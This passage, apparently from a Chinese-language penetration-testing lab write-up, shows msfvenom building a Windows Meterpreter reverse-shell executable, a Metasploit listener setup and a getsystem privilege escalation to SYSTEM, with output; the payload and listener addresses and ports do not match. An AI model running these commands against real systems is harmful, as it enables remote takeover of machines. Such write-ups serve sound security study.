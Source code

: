 #### 反向 shell：

```bash
msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.254.129 LPORT=7777 -f exe -o shell.exe
# 反向 shell
```

#### 开启 msf 监听：

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.53.131
set lport 8885
run
```

[![](assets/1701827767-937647948ca740a837bd2ec1627dbb14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191241-b5f08a5e-9103-1.png)

提权：

```bash
meterpreter > getuid
Server username: GOD\Administrator

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

[![](assets/1701827767-8d2ec22c22542ac477ff82da36f5af74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191249-ba42c392-9103-1.png)
